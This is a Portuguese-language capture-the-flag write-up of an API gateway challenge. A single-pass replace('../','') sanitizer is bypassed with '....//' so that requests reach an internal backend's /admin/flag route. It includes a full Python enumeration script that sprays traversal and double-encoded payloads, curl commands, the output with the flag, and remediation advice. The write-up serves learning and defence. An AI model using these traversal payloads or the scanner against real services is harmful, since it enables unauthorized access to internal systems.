

# Read Between the Lines | Fluid Attacks CTF 2026

`api` `path-traversal` `ssrf` `non-recursive-sanitizer` `gateway`

| | |
|---|---|
| **Plataforma / evento** | Fluid Attacks CTF 2026 (etapa 2, 04/07/2026) |
| **Categoria** | API |
| **Resolvido em** | 2026-07-04 |

## TL;DR

O gateway recebe `/api/profile/<username>`, "sanitiza" com um `replace("../", "")` de passagem única e repassa para um backend interno em `http://127.0.0.1:5001/users/<username>`. O replace é não recursivo: a string `....//` contém um `../` no meio, e quando ele é removido, as pontas se juntam e formam um `../` novo. Então `....//admin/flag` vira `../admin/flag`, e a URL interna `http://backend/users/../admin/flag` normaliza para `/admin/flag`, uma rota interna do backend que não deveria estar exposta. Ela devolve a flag.

> [!IMPORTANT]
> **Ideia-chave:** sanitizar removendo um padrão uma única vez é inútil se a própria remoção pode recriar o padrão. `....//` sobrevive a `replace("../","")` virando `../`.

## Enunciado

> ProfileHub API Gateway. Public-facing service that proxies profile requests to a secure internal microservice.

**Arquivos / instância:** `src/gateway.py` (Flask) e um endpoint. Na minha instância o host era `77f39209681106af.chal.ctf.ae`. Endpoints públicos: `/api/users`, `/api/profile/<username>`, `/health`.

## Dicas progressivas

<details><summary>Dica 1</summary>O gateway é um proxy para um backend interno. O que mais mora nesse backend além de <code>/users/</code>?</details>
<details><summary>Dica 2</summary>A função <code>sanitize_path</code> faz <code>replace("../", "")</code> só uma vez. O que acontece com <code>....//</code>?</details>
<details><summary>Dica 3</summary><code>....//</code> vira <code>../</code> depois do replace. Use <code>/api/profile/....//admin/flag</code> para sair de <code>/users/</code> e alcançar <code>/admin/flag</code> no backend.</details>

## Ambiente

- **Máquina atacante:** Kali Linux, Python 3 (`requests`). Dá pra reproduzir com `curl`.

***INSERIR no terminal: Kali (atacante)

```bash
export TARGET=77f39209681106af.chal.ctf.ae
```

Na minha instância era esse host. Use o da sua (o script lê `TARGET`).

## Resolução

### 1. Revisão do código: a sanitização de uma passagem

#### `src/gateway.py`

```python
def sanitize_path(user_input):
    """Neutralize path traversal sequences in user input."""
    cleaned = user_input.replace("../", "")   # <-- uma passagem só
    cleaned = cleaned.replace("..\\", "")
    return cleaned

@app.route("/api/profile/<path:username>")   # <path:...> aceita barras
def get_profile(username):
    safe_username = sanitize_path(username)
    internal_url = f"{BACKEND_URL}/users/{safe_username}"   # BACKEND_URL = http://127.0.0.1:5001
    resp = http_client.get(internal_url, timeout=5)
    ...
```

Dois detalhes se somam:

1. A rota usa `<path:username>`, que casa com barras. Então o `username` pode conter `/`, e o atacante controla o caminho depois de `/users/`.
2. O `replace("../", "")` roda uma vez só. Isso é o bug clássico de sanitizador não recursivo.

Pensando no `....//`: o Python avalia a substring `../` dentro dele e remove. Em `....//` (seis caracteres: `.`,`.`,`.`,`.`,`/`,`/`), o match de `../` acontece nos caracteres 3, 4, 5 (`.`,`.`,`/`), restando `.`,`.`,`/` = `../`. A remoção *produziu* o traversal.

> [!TIP]
> **Conceito: sanitizador não recursivo (CWE-182).** Remover uma sequência perigosa uma única vez é falho sempre que a remoção puder reconstruir a sequência. Os payloads canônicos são `....//` (vira `../`) e `....\/`, além de `..././`. A correção certa é rejeitar (não "limpar") ou normalizar o caminho e checar o resultado final, não fazer find-and-replace. Referência: [CWE-182: Collapse of Data into Unsafe Value](https://cwe.mitre.org/data/definitions/182.html).

Como o gateway encaminha para um backend HTTP interno, isso vira uma SSRF/traversal de rota: `http://127.0.0.1:5001/users/../admin/flag` é normalizado (pelo backend) para `/admin/flag`.

### 2. Reconhecimento e exploração

Enumerei os endpoints públicos (baseline: `/api/users`, perfis de `alice`, `bob`, ...) e depois varri rotas internas prováveis atrás do `....//`. O script faz tudo: baseline, lista de candidatos internos (`flag`, `admin`, `admin/flag`, `debug`, `config`...) e variações URL-encoded. Script completo, idêntico ao arquivo em `scripts/`:

#### `scripts/script1.py`

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

"""
script1.py

Enumeração inicial do desafio Read Between the Lines.

Objetivo:
- Confirmar endpoints públicos do gateway.
- Testar a falha de sanitização em /api/profile/<username>.
- Usar payloads do tipo ....//, que viram ../ depois do replace("../", "").
- Procurar endpoints internos prováveis no backend, como /flag, /admin, /debug etc.

A vulnerabilidade vem do gateway.py:

    safe_username = sanitize_path(username)
    internal_url = f"{BACKEND_URL}/users/{safe_username}"

Se username = ....//flag
safe_username pode virar ../flag
e o backend pode interpretar /users/../flag como /flag.
"""

import os
import re
import sys
import requests
from urllib.parse import quote


requests.packages.urllib3.disable_warnings()


def request(base_url, path):
    """
    Faz uma requisição GET preservando o path informado.
    O requests normalmente não mexe em sequências como ....// no path externo.
    """
    url = base_url.rstrip("/") + path

    try:
        response = requests.get(
            url,
            timeout=10,
            verify=False,
            allow_redirects=False,
        )

        return response.status_code, response.text, dict(response.headers)

    except requests.RequestException as error:
        return None, str(error), {}


def print_result(label, path, status, body):
    """
    Imprime resultado resumido e destaca possíveis flags.
    """
    print()
    print("=" * 90)
    print(f"[TESTE] {label}")
    print(f"[PATH ] {path}")
    print(f"[HTTP ] {status}")
    print("-" * 90)

    shown = body
    if len(shown) > 1200:
        shown = shown[:1200] + "\n...[TRUNCADO]..."

    print(shown)

    match = re.search(r"flag\{[^}\r\n]+\}", body, re.IGNORECASE)
    if match:
        flag = match.group(0)
        print()
        print("=" * 90)
        print("[+] FLAG ENCONTRADA")
        print("=" * 90)
        print(flag)

        with open("flag.txt", "w", encoding="utf-8") as flag_file:
            flag_file.write(flag + "\n")

        print("[+] Flag salva em flag.txt")
        sys.exit(0)


def main():
    target = os.environ.get("TARGET", "77f39209681106af.chal.ctf.ae").strip()

    # Testamos HTTP e HTTPS porque em alguns desafios o painel mostra HTTP,
    # mas o domínio também aceita HTTPS.
    bases = [
        f"http://{target}",
        f"https://{target}",
    ]

    # Endpoints públicos documentados pelo gateway.
    public_paths = [
        "/",
        "/health",
        "/api/users",
        "/api/profile/admin",
        "/api/profile/guerreiro",
        "/api/profile/alice",
        "/api/profile/bob",
    ]

    # Candidatos comuns de endpoints internos em CTFs de API.
    internal_candidates = [
        "flag",
        "admin",
        "admin/flag",
        "internal",
        "internal/flag",
        "debug",
        "debug/config",
        "config",
        "secret",
        "secrets",
        "backup",
        "backups",
        "health",
        "users",
        "users/admin",
        "profiles",
        "profile/admin",
        "api",
        "api/users",
        "api/flag",
        "api/admin",
    ]

    # Payload principal:
    # /api/profile/....//flag
    #
    # No gateway:
    # username      = ....//flag
    # safe_username = ../flag
    # internal_url  = http://backend/users/../flag
    traversal_paths = []

    for candidate in internal_candidates:
        traversal_paths.append(f"/api/profile/....//{candidate}")

    # Também testamos variações com URL encoding.
    # Algumas camadas decodificam antes de passar ao Flask.
    for candidate in internal_candidates:
        traversal_paths.append(f"/api/profile/....%2f%2f{quote(candidate)}")
        traversal_paths.append(f"/api/profile/....%252f%252f{quote(candidate)}")

    os.makedirs("loot", exist_ok=True)

    for base_url in bases:
        print()
        print("#" * 90)
        print(f"[*] Testando base URL: {base_url}")
        print("#" * 90)

        all_paths = public_paths + traversal_paths

        for path in all_paths:
            status, body, headers = request(base_url, path)

            label = "public" if path in public_paths else "traversal"
            print_result(label, path, status, body)

            safe_name = (
                base_url.replace("://", "_")
                .replace("/", "_")
                .replace(":", "_")
                + path.replace("/", "_").replace("%", "_")
            )

            with open(f"loot/resp_{safe_name}.txt", "w", encoding="utf-8") as output:
                output.write(f"URL: {base_url.rstrip('/') + path}\n")
                output.write(f"STATUS: {status}\n")
                output.write("\n")
                output.write(body)


if __name__ == "__main__":
    main()
```

***INSERIR no terminal: Kali (atacante)

```bash
python3 scripts/script1.py
```

```text
===== /api/profile/....//flag =====
HTTP/1.1 404 NOT FOUND
{"error":"User not found"}

===== /api/profile/....//admin/flag =====
HTTP/1.1 200 OK
{"flag":"flag{f3491c3cad7XXXXX}","message":"Internal admin access granted","status":"ok"}
```

O caminho certo foi `....//admin/flag`. Repare que `....//flag` sozinho dá 404 (não existe `/flag` no backend), mas `....//users` devolve a lista (confirma que o `/users/../users` colapsa para `/users`), e `....//admin/flag` acerta a rota interna `/admin/flag`.

O mesmo direto no `curl` (note que eu não deixo o `curl` normalizar o path, por isso o `....//` chega cru ao servidor):

***INSERIR no terminal: Kali (atacante)

```bash
curl -sk "https://$TARGET/api/profile/....//admin/flag"
```

```text
{"flag":"flag{f3491c3cad7XXXXX}","message":"Internal admin access granted","status":"ok"}
```

## Cadeia de ataque



## Por que funciona

A suposição quebrada é que "remover `../` neutraliza traversal". O gateway confia que a string resultante é segura, mas a operação de limpeza, aplicada uma vez, pode reintroduzir o padrão que removeu. Como o resultado é concatenado numa URL para um backend que faz a normalização de caminho (`/users/../admin` -> `/admin`), o atacante salta do prefixo `/users/` para qualquer rota interna. A primitiva é acesso a rotas do microserviço interno que a arquitetura assumia inacessíveis de fora.

## Remediação

- Não "limpar" entrada de caminho. Validar com allowlist (ex.: `^[a-z0-9_-]+$` para username) e rejeitar o resto.
- Se precisar montar caminho, normalizar primeiro (`os.path.normpath`) e verificar que o resultado continua dentro do prefixo esperado.
- No backend, autenticar rotas administrativas em vez de confiar que elas só são alcançáveis internamente.

## Lições e padrões

- **Sinais para reconhecer:** sanitização por `replace`/regex de `../` (especialmente de passagem única), rota `<path:...>`, e um gateway que proxya para backend interno. Teste sempre `....//`, `..././`, `%2e%2e%2f`, double-encoding.
- **Da próxima vez eu tentaria primeiro:** mandar `....//users` para confirmar que o colapso funciona (resposta conhecida como baseline), e só então varrer rotas internas prováveis (`admin`, `admin/flag`, `internal`, `debug`).

## Referências

- [CWE-182: Collapse of Data into Unsafe Value](https://cwe.mitre.org/data/definitions/182.html)
- [PortSwigger: Path traversal](https://portswigger.net/web-security/file-path-traversal)

## Flag

```text
flag{f3491c3cad7XXXXX}
```
